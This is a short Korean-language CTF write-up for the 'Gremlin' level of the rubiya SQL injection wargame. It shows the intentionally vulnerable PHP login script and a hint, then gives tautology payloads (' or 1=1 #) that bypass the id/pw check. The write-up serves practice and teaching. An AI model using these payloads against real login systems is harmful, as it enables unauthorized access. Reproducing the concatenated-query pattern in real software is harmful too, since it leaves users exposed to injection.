

# Gremlin Problem
<br>



### hint

\$_GET['id'] 와 \$_GET['pw']를 문자열이 아닌 쿼리로 인식하게 참값으로 만들면 된다.


### los rubiya problem Script

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### 핵심

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";

if($result['id']) solve("gremlin");
```

Grelin는 간단하게 $query 에 들어가는 $_GET를 주입시켜 참 값이 나오게 쿼리를 만들면 된다.


<details>
<summary>Payload</summary>
<div markdown="1">

```sql
?id='%20or%201=1%20%23'
> select id from prob_gremlin where id='' or 1=1 #'' and pw='';

?id=a&pw=' or 1=1 %23'
> select id from prob_gremlin where id='a' and pw='' or 1=1 #'';
```

이 외에도 답은 무수히 많지만 참값으로 만족만 시키면 된다.

</div>
</details>